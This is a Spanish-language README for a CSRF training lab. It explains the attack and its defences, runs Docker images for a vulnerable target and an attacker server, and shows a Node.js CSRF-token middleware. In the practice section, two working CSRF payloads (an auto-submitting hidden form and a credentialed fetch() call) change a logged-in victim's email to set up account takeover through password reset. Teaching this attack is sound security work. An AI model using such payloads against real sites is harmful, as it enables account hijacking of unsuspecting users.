# CSRFAttackPractice

# **INDICE**

- [1. INTRODUCCION](#id1)
- [2. CSRF ATTACK](#id2)
  - [2.1 ¿Qué es un ataque CSRF?](#id3)
  - [2.2 ¿Cómo funciona un ataque CSRF?](#id4)
  - [2.3 ¿Por qué funciona el ataque CSRF?](#id5)
  - [2.4 Diagrama de representación del ataque](#id6)
  - [2.5 Consecuencias del ataque CSRF](#id7)
  - [2.6 Medias de prevención para evitar un ataque CSRF de parte del usuario](#id8)
    - [2.6.1 Navegar con atención y precaución](#id9)
    - [2.6.2 Revisar el terminal en busca de malware](#id10)
  - [2.7 Métodos para bloquear un ataque CSRF de parte del servidor](#id11)
    - [2.7.1 Autenticación de doble factor](#id12)
    - [2.7.2 Encabezado de referencia](#id13)
    - [2.7.3 Cerrar sesión al finalizar el uso](#id14)
- [3 Practica con el software OWSAP (Open Web Application Security Project)](#id15)

# **1.INTRODUCCION** <a name="id1"></a>

En la actualidad existen varios ataques cibernéticos hacia aplicaciones web que puede perjudicar a los usuarios que navegan por el internet por ello es recomendable que conozcan no todo sino lo suficiente para identificar cuando es posible o prevenir los ataques, por ello se hará una descripción del ataque CSRF y una práctica de como realizan los atacantes este tipo de ataque y recomendaciones de cómo prevenir tanto de parte del usuario del proveedor de la página web.

# **2. CSRF ATTACK** <a name="id2"></a>

- ## **2.1 ¿Qué es un ataque CSRF?** <a name="id3"></a>

  El Cross Site Request Forgery (CSRF, Falsificación de solicitud de sitio de El Cross) es un tipo de ataque a sistemas o aplicaciones web comúnmente que se suele usar para estafas, robo de cuentas, o de información relevante por Internet. Los delincuentes realizan este ataque cuando se apoderan de una sesión autorizada por el usuario para realizar actos dañinos. El ataque se lleva a cabo mediante el protocolo HTTP. (ionos, 24)

- ## **2.2 ¿Cómo funciona un ataque CSRF?** <a name="id4"></a>

  Un usuario accede a una página o aplicación web iniciando sesión; y a la vez visita otras páginas, la cual fue implementadas por el atacante, en cual el usuario realiza diversas acciones, por ejemplo, el accionamiento de un botón, en la cual en esa acción el atacante envía una solicitud HTTP al portal empleado por el usuario y realiza una acción dentro del servidor en nombre del el, ya que la sesión esta activa. (ionos, 24)

  Para realizar este ataque el atacante debe de saber simplemente la forma de la solicitud HTTP correcta.

  Servidor del portal reconoce la solicitud HTTP que ha sido formulada correctamente y atreves de las cookies de sesión correspondientes, el servidor ejecuta las acciones del atacante en nombre del usuario sin que se dé cuenta.

- ## **2.3 ¿Por qué funciona el ataque CSRF?** <a name="id5"></a>

  El Ataque CSRF es un ataque que funciona porque un servidor (receptador) que procesa peticiones HTTP no puede o no comprueba de donde proceden dichas solicitudes HTTP, es decir, no queda claro si la petición fue hecha o creada por la propia página web o si fue de origen externo, en este contexto, el atacante puede aprovecharse de la brecha de seguridad del propio navegador o del propio navegador para trasmitir dichas solicitudes al servidor sin que se cuenta que un tercero está haciendo dicha acción. (ionos, 24)

- ## **2.4 Diagrama de representación del ataque** <a name="id6"></a>

  

- ## **2.5 Consecuencias del ataque CSRF** <a name="id7"></a>

  - Robo de identidad
  - Robo de cuentas en páginas web
  - Robo de información sensible
  - Acciones no reversibles en una pagina
  - Robo de material valioso

- ## **2.6 Medias de prevención para evitar un ataque CSRF de parte del usuario** <a name="id8"></a>

  - ### **2.6.1 Navegar con atención y precaución** <a name="id9"></a>

    En la actualidad existen varias sino bastante forma de acceder a cuentas sin autorización alguna, por ello es recomendable navegar en las páginas web con precaución y alerta, revisando la procedencia de la página, el contenido de dicha página, y a la vez tener cuidado de que información ingresa en páginas.

  - ### **2.6.2 Revisar el terminal en busca de malware** <a name="id10"></a>
    Aunque la mayoría de las personas no tienen concomiendo avanzado del uso de un navegador, sería recomendable que todos los usuarios de internet tengan el cocimiento de acceder a la terminal o consola de los navegadores para poder revisar cuando sospecha de una página, revisar las peticiones y ejecuciones de un script en consola para prevenir un ataque CSRF o cualquier otro tipo de ataque hacia las paginas o hacia el propio usuario.

- ## **2.7 Métodos para bloquear un ataque CSRF de parte del servidor** <a name="id11"></a>

  - ### **2.7.1 Autenticación de doble factor** <a name="id12"></a>

    La mayoría de aplicaciones web en la actualidad se puede implementar una autenticación de doble factor, para poder realizar el acceso a la aplicación web o para realizar acciones importantes dentro de la aplicación web, como ejemplo en los bancos para realizar una transacción en un portal de banco solicita un token enviando al correo o al celular para poder realizar la transacción.

  - ## **2.7.2 Encabezado de referencia** <a name="id13"></a>
    La mayoría de navegadores en algunos casos no solicitan o no les dan importancia a los encabezados de referencia (host de origen, host de llegada, CORS) de las peticiones HTTP, por tal forma es posible realizar este tipo de ataque, por tal forma los servidores deberán de agregar obligatoriamente esta información en el encabezado para evitar los más posible estos tipos de ataques.
  - ## **2.7.3 Cerrar sesión al finalizar el uso** <a name="id14"></a>
    La mayoría de ataques CSRF suceden porque en el servidor no tienen autenticación de token CSRF pero otro de los mayores vulnerabilidades sucede porque el servidor no tiene un tiempo límite de sesión, es decir que la sesión puede estar abierta por todo el tiempo, de tal forma eso hace más susceptible a los ataques, por ello se recomienda que en los servidores se tenga limite en las sesiones.

# **3 Practica con el software OWSAP (Open Web Application Security Project)** <a name="id15"></a>

- ## **3.1 OWSAP ZAP**

  OWASP (acrónimo de Open Web Application Security Project, en inglés ‘Proyecto abierto de seguridad de aplicaciones web’) es un proyecto de código abierto dedicado a determinar y combatir las causas que hacen que el software sea inseguro. La Fundación OWASP es un organismo sin ánimo de lucro que apoya y gestiona los proyectos e infraestructura de OWASP. La comunidad OWASP está formada por empresas, organizaciones educativas y particulares de todo mundo. Juntos constituyen una comunidad de seguridad informática que trabaja para crear artículos, metodologías, documentación, herramientas y tecnologías que se liberan y pueden ser usadas gratuitamente por cualquiera.

  

- ## **3.2 Practica**

  - ## **3.2.1 Entorno de ejecucion de las aplicaciones**

    - la siguente practica se hara en un entorno en la nube para facilitar el uso de las herramientas y un caso mas real en donde se puede suceder el ataque
    - por la cual se usara el proveedor en la nube **[DigitalOcen](http://digitalocean.com/)**
    - en cual se usará **[DigitalOcen](https://www.docker.com/)** para la visualizacion de los servidores correspondiente para facilitar la configuracion de los servidores

    - para poder instalar docker en el servidor **[Acceda a este link](https://www.digitalocean.com/community/tutorials/como-instalar-y-usar-docker-en-ubuntu-18-04-1-es)**

  - ## **3.2.2 Imagenes de los servidores**

    - ## **3.2.2.1 Target Server**

      Constara de dos imagenes:

      la primera imagen es para realizar la prueba **SIN** la proteccion Ante el **ataque CSRF** en el cual llevara el nombre de **cloud.canister.io:5000/msmarcks/csrftargetserver_sp**

      - **Comando para iniciar la imagen**

        ```bash
        docker run -d -p "3000:3000" --name csrftargetserver_sp cloud.canister.io:5000/msmarcks/csrftargetserver_sp
        ```

      la segunda imagen es para realizar la prueba **CON** la proteccion Ante el **ataque CSRF** en el cual llevara el nombre de **cloud.canister.io:5000/msmarcks/csrftargetserver_cp**

      - **Comando para iniciar la imagen**

        ```bash
        docker run -d -p "3001:3000" --name csrftargetserver_cp cloud.canister.io:5000/msmarcks/csrftargetserver_cp
        ```

    - ## **3.2.2.2 Attacker Server**

      Constara de una imagene:

      se utilizara para realizar el **ataque CSRF** en cual llevara el nombre de **cloud.canister.io:5000/msmarcks/csrfattackserver**

      - **Comando para iniciar la imagen**

        ```bash
        docker run -d -p "5000:5000" --name csrfattackserver cloud.canister.io:5000/msmarcks/csrfattackserver
        ```

  - ## **3.2.3 Entornos de ejecucion de las aplicaciones web**

      - el servidor **targetServer** se ejecutara en un entorno de **nodejs**
      - el servidor **attackerserver** se ejecutara en un entorno de **ngninx**
    

   - ## **3.2.4 ejecucion de la practica**
      En la practica como se acoto anteriormente se usaran los servidores uno sin la proteccion anti CSRF que trabajeremos con ese servidor primero

      

      en cual este servira para iniciar seson en la aplicacion web

      en cual las credenciales seran:
        - email: **test@test.com**
        - password: **1234**

      **nota:** en este caso no importa que la contraseña este cifrada porque no relevante para este caso porque las acciones se haran cuando este iniciado sesion

      

      **nota:** se ingresan los datos para iniciar sesion

        

      **nota:** en el cual cuando se inicia sesion el sevidor enviara una cookie de sesion en el encabezado, en el cual el navegador guardara.

      

        
      **nota:** para recordar un poco de como funciona una cookie de sesion.

      el servidor retorna una cookie de sesion para cada uno de los usuarios en el cual servira para realizar las peticiones al servidor.

      en el caso de las cookies es bueno recodar que se guardan en el dominio no por pagina, es decir, una misma cookie estara activa en todas las paginas del dominio sin importar en donde este.

      
        
      **nota:** en el cual existe una url vulnerable que es la de editar el corrreo electronico.

      con esa vamos a trabajar esta practica.

      en cual vamos a realizar el primer ejemplo del ataque

      con el siguiente codigo:

      ```html
      <!DOCTYPE html>
      <html lang="en">

      <head>
          <meta charset="UTF-8">
          <meta http-equiv="X-UA-Compatible" content="IE=edge">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <title>Atacante</title>
      </head>

      <body>
          <form name="form" action="http://165.227.167.80:3001/edit" method="post">
              <input type="hidden" name="email" value="prueba@gmail.com">
          </form>
      </body>
      <script>
          document.form.submit();
      </script>

      </html>
      ```
      este codigo realiza la accion que cuando el usuario ingrese a esa url como ya esta iniciado sesion en la aplicacion realiza la peticion al servidor **http://165.227.167.80:3001/edit** para cambiar el correo por **prueba@gmail.com** en ese caso un es correo pero puede hacer que una compra de un articulo, una transaccion de una cuenta hacia otra.

        

        

      **nota:** como se puede observar en request se establece el cambio del correo electronico, pero se realizo con la pagina de atacante por descuido del usuario pero ahi todavia se dio cuenta que se cambio el correo electronico

      para ello vamos a realizar el siguente ejemplo para que observern que puede realizar sin que se cuenta de la accion.

      con el siguente codigo:

      ```html
      <!DOCTYPE html>
      <html lang="en">

      <head>
          <meta charset="UTF-8">
          <meta http-equiv="X-UA-Compatible" content="IE=edge">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <title>Atacante</title>
      </head>

      <body>

      </body>
      <script>
          fetch('http://165.227.167.80:3001/edit', {
              method: 'POST',
              credentials: 'include',
              mode: 'no-cors',
              headers: {
                  'Content-Type': 'application/x-www-form-urlencoded',
              },
              body: 'email=hacker@hack.com',
          })
              .then(res => console.log(res.status))
              .catch(err => console.log(err));
      </script>

      </html>
      ```

      en este caso se hara con **fecth api** a la misma url y cambiar dicho email, este caso no se dara cuenta de la accion porque permancera en la misma pagina

        

        

      **nota:** en este como pueden observar no cambio de url a la que direcciona cuando se hace normalente para que el usuario no se de cuenta de dicha accion.

      en el caso que el usuario desee cerrar sesion

        

      y vuelva a intentar ingresar sus crendenciales

        

        

      lo que sucedera es que mostrara el mensaje que indica que sus credenciales no son validas y por conscuente el usuario pedira un cambio de contraseña, y ese link sera enviado al correo del atacante y el atacante podra cambiar la contraseña.

      -----------------
      para evitar los ataques de CSRF existe una tenica que es **CSRF TOKEN**

      **TOKEN CSRF:** Los token CSRF permiten prevenir un frecuente agujero de seguridad de las aplicaciones web llamado "Cross Site Request Forgery". En español sería algo como "falsificación de petición en sitios cruzados" o simplemente falsificación de solicitud entre sitios.

       

      **nota:** en este caso el token CSRF lo incrusta dentro de formulario que solicita del cliente para realizar una accion dentro de la pagina en cual por cada peticion que se haga tendra un token que se caducara dentro de un tiempo para tener seguridad que no sea robado por otro medio

      en el caso del servidor implementado en nodejs se hizo un **middelware** para generar el **token CSFR** y su verificaion oir e **SESSIONID** que genera cuando se inicia sesion

      ```javascript
      import { v4 as uuid } from 'uuid';
      const csrf = {}
      csrf.tokens = new Map();

      csrf.csrfToken = (sessionId) => {
          const token = uuid();
          const userTokens = csrf.tokens.get(sessionId);
          userTokens.add(token);
          setTimeout(() => userTokens.delete(token), 30000);
          return token;
      }
      csrf.csrf = (req, res, next) => {
          const token = req.body.csrf;
          if (!token || !csrf.tokens.get(req.sessionID).has(token)) {
              res.status(422).send('CSRF Token missing or expired');
          } else {
              next();
          }
      }
      export default csrf;
      ```

      por ejemplo practicos se usra **setTimeout** para la caducidad del token

      en este caso cuando se solicite un formulario para editar el correo el serivdor respondera con el mismo formulario unicamente agregando un input hidden con el token generado para ese formulario

